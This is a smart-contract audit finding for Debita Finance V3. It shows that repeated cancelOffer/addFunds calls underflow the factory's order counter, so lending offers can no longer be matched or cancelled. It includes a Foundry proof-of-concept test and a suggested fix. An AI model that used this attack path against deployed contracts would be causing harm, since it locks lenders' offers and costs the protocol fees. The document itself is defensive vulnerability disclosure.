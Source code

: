 Mini Tawny Whale

High

# A malicious lender will cause lending offers to be unmatchable and uncancellable due to a missing check in `DLOImplementation::addFunds()`

### Summary

The missing check in `DLOImplementation::addFunds()` allows malicious lenders to cancel their offers mutliple times. This creates a situation where any call to `DebitaV3Aggregator::matchOffersV3` that attempts to fully fill a non-perpetual lending offer by matching it with a compatible borrow offer will revert.
Additionally, whenever any other lender tries to cancel their offer, the call also reverts.
Both reverts occur due to an [underflow](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/1465ba6884c4cc44f7fc28e51f792db346ab1e33/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L212) in `DLOFactory::deleteOrder()`.

### Root Cause

In `DebitaLendOffer-Implementation:163`, there is a missing check to verify that the offer a lender wants to add funds to is still active. Furthermore, `DLOImplementation::cancelOffer()` only checks whether `availableAmount > 0`.
### Internal pre-conditions

1. At least one borrow offer needs to be active.

### External pre-conditions

None.

### Attack Path

1. LenderA calls `DLOFactory::createLendOrder` to create a non-perpetual offer. This offer is compatible with BorrowOfferA.
2. Malicious LenderB calls `DLOFactory::createLendOrder` to create an offer.
3. LenderB calls `DLOImplementation::cancelOffer()` to delete their offer. The offer is marked as inactive.
4. LenderB calls `DLOImplementation::addFunds()` to add funds to their inactive offer.
5. LenderB calls `DLOImplementation::cancelOffer()` again. This triggers `DLOFactory::deleteOrder()` even though the offer is already inactive.

The malicious lender repeats step 4 and 5 until the call to cancel their offer reverts due to an underflow.
Every time a new offer is created, he will repeat steps 4 and 5.

6.1. `DebitaV3Aggregator::matchOffersV3` is called to fully fill LendOfferA by matching it with BorrowOfferA, but the call reverts.
6.2. LenderA calls `DLOImplementation::cancelOffer()` to delete their offer, but the call also reverts.

It is important to note that the malicious lender will not lose any funds by doing this.

### Impact

Non-perpetual lending offers can never be matched if doing so would fully fill them.
As a result, some funds sent to the lending offer will not earn interest for the lender, even if a compatible borrowing offer exists. To avoid this, lenders would be forced to create only perpetual offers. Additionally, the protocol will lose fees because many funds remain unlent, even when enough borrowing offers exist to fill them.

Furthermore, no lender will be able to cancel any of their offers. This means lending offers can still be accepted, even if the respective lenders no longer wish for them to be.

### PoC

Add the following in `BasicDebitaAggregator.t.sol`:
```solidity
DLOImplementation public SecondLendOrder;
DLOImplementation public ThirdLendOrder;
DLOImplementation public FourthLendOrder;
address secondLender = 0x5C235931376b21341fA00d8A606e498e1059eCc0;
```

Furthermore, an import needs to be changed in `BasicDebitaAggregator.t.sol`:
```diff
- import {Test, console} from "forge-std/Test.sol";
+ import {Test, console, stdError} from "forge-std/Test.sol";
```


Append the following to `setUp()` in `BasicDebitaAggregator.t.sol`:

```solidity
    vm.startPrank(secondLender);
    deal(AERO, address(secondLender), 1000e18, false);
    IERC20(AERO).approve(address(DLOFactoryContract), 1000e18);
    ratio[0] = 1e18;
    address SecondlendOrderAddress = DLOFactoryContract.createLendOrder(
        false,
        oraclesActivated,
        false,
        ltvs,
        1000,
        8640000,
        86400,
        acceptedPrinciples,
        AERO,
        oraclesPrinciples,
        ratio,
        address(0x0),
        5e18
    );
    vm.stopPrank();

    ratio[0] = 1e18;
    address ThirdlendOrderAddress = DLOFactoryContract.createLendOrder(
        false,
        oraclesActivated,
        false,
        ltvs,
        1000,
        8640000,
        86400,
        acceptedPrinciples,
        AERO,
        oraclesPrinciples,
        ratio,
        address(0x0),
        5e18
    );

    ratio[0] = 1e18;
    address FourthlendOrderAddress = DLOFactoryContract.createLendOrder(
        false,
        oraclesActivated,
        false,
        ltvs,
        1000,
        8640000,
        86400,
        acceptedPrinciples,
        AERO,
        oraclesPrinciples,
        ratio,
        address(0x0),
        5e18
    );

    SecondLendOrder = DLOImplementation(SecondlendOrderAddress);
    ThirdLendOrder = DLOImplementation(ThirdlendOrderAddress);
    FourthLendOrder = DLOImplementation(FourthlendOrderAddress);
```



Add the following test to `BasicDebitaAggregator.t.sol` (it only works when four lend orders have been created):

```solidity
function testDeleteLendOfferRevert() public {
        
    vm.startPrank(secondLender);

    IERC20(AERO).approve(address(SecondLendOrder), 1000e18);

    SecondLendOrder.cancelOffer();

    uint balanceBeforeAddFunds = IERC20(AERO).balanceOf(address(SecondLendOrder));

    SecondLendOrder.addFunds(1e18);
    uint balanceAfterAddFunds = IERC20(AERO).balanceOf(address(SecondLendOrder));
    assertEq(balanceBeforeAddFunds, balanceAfterAddFunds - 1e18);
        
    SecondLendOrder.cancelOffer();
        
    SecondLendOrder.addFunds(1e18);
    balanceAfterAddFunds = IERC20(AERO).balanceOf(address(SecondLendOrder));
    assertEq(balanceBeforeAddFunds, balanceAfterAddFunds - 1e18);
        
    SecondLendOrder.cancelOffer();

    SecondLendOrder.addFunds(1e18);
    balanceAfterAddFunds = IERC20(AERO).balanceOf(address(SecondLendOrder));
    assertEq(balanceBeforeAddFunds, balanceAfterAddFunds - 1e18);
        
    SecondLendOrder.cancelOffer();
        
    vm.stopPrank();
    
    // other lend orders cannot be canceled    
    vm.expectRevert(stdError.arithmeticError);
    ThirdLendOrder.cancelOffer();

    vm.expectRevert(stdError.arithmeticError);
    FourthLendOrder.cancelOffer();
    
    address[] memory lendOrders = allDynamicData.getDynamicAddressArray(2);
    uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
        2
    );
    uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
        .getDynamicUintArray(2);
    address[] memory principles = allDynamicData.getDynamicAddressArray(1);
    uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
        .getDynamicUintArray(2);
    uint[] memory indexForCollateral_LendOrder = allDynamicData
        .getDynamicUintArray(2);
    uint[] memory indexPrinciple_LendOrder = allDynamicData
        .getDynamicUintArray(2);

    lendOrders[0] = address(ThirdLendOrder);
    lendAmountPerOrder[0] = 5e18;
    porcentageOfRatioPerLendOrder[0] = 10000;
    principles[0] = AERO;

    lendOrders[1] = address(FourthLendOrder);
    lendAmountPerOrder[1] = 5e18;
    porcentageOfRatioPerLendOrder[1] = 10000;

    // lend orders that are not perpetual cannot be matched, if their available amount would be 0
    vm.expectRevert(stdError.arithmeticError);
    address loan = DebitaV3AggregatorContract.matchOffersV3(
        lendOrders,
        lendAmountPerOrder,
        porcentageOfRatioPerLendOrder,
        address(BorrowOrder),
        principles,
        indexForPrinciple_BorrowOrder,
        indexForCollateral_LendOrder,
        indexPrinciple_LendOrder
    );
}
```

### Mitigation

Consider adding a check to ensure that no funds can be added to an inactive offer.
